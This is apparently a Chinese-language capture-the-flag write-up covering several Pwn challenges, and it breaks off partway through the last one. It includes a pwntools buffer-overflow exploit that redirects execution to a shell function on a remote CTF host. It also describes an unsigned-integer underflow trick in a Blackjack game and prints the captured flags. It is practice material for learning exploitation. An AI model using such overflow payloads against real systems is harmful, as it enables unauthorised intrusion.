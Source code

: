 
## Pwn

### 回不去的何止那年夏天

用id打开，看到有个函数Time_machine返回了shell，查到它的地址，exp直接打

``` python
from pwn import *
context.log_level = 'debug'
context.binary = 'summer'
#sh = process('./summer')
sh = remote('210.44.150.15', 45024)

offset = 0x7a + 8
time_machine_addr = 0x000000000004011DE
payload = b'a' * offset + p64(time_machine_addr)

sh.sendline(b'yes')
sh.sendline(payload)
sh.interactive()
```

![](https://s2.loli.net/2024/11/14/9fs6DInUmP7uTGK.png)

```
SSHCTF{I_R3AI1y_10v3_y0U_dd9530e8f362}
```

### 邻座Linux同学不时用命令偷偷看我的flag

nc连接直接拿shell，相当于直接拿flag了

``` 
SSHCTF{7H3_b39iNnlnG_01_tHl5_w0R1d_f57741fdfac3}
```

### Blackjack

第一局选择16分all in，一直HIT超过21点输掉比赛，此时分数来到了0分

第二轮分数输入-1，这局要赢（输了就重来）

赢了之后，由于score存储类型是unsinged，所以最终分数极大，拿到flag

![](https://s2.loli.net/2024/11/14/WPIxswat9DQqev3.png)

``` 
SSHCTF{a_H4ckEr_Sto1e_mY_f1A9_w17H_a_ne6ATlvE_w46ER_3ab2029b8e4d}
```

### Overflow_key

1. checksec检测，是小端序，看完hint的三个视频，再加上数组溢出，就知道怎么做了。用ida打开：

   ``` 
    buf: 7字节，前4个必须是'root'
    v5: buf字节数
    v4: 10字节，读取到的下一位设置为0，本身仅有char[6]，存在数组溢出
    v4: 前6字节写在了v4，后
    check(v4, v5): v4前四位是aaaa，且v5=257
   ```
